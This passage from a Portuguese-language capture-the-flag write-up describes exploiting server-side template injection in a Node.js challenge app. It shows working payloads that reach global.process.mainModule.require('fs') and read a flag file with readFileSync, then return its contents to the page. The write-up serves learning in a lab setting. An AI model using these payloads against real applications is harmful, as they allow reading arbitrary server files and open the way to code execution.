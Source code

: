 ![](./images/candy_order.png)

Ele exibe no exatamente o meu retorno, então parti para fazer o meu template injection, olhei algumas coisas na internet, a maioria monta um shell e eu precisava somente ler o conteúdo do arquivo flag, então adaptei.

- Passo não sei mais qual passo eu tô: Criar um template injection
  Eu comecei vendo que objetos eu poderia usar, para isso usei o console do próprio container pra mostrar as saídas e fui verificando e consultando no google o que era costumeiro usar, vi que muitos template injections usavam um objeto chamado global.process.mainModule e eu fui testá-lo

  ```javascript
  #{(()=>{console.log(Object.keys(global.process.mainModule))})()}
  ```

  ```javascript
  #{(()=>{console.log(Object.keys(global.process.mainModule.require('fs')))})()}
  ```

  ```javascript
  #{(()=>{console.log(global.process.mainModule.require('fs').readFileSync('../../flag', 'utf8'))})()}
  ```

  Isso deu certo, a flag estava sendo exibida no meu console, agora eu tinha que retorná-la pra aplicação

```javascript
  #{(()=>{return global.process.mainModule.require('fs').readFileSync('../../flag', 'utf8')})()}
```

E aqui está a flag sendo exibida na aplicação
![](./images/appsec_flag.png)
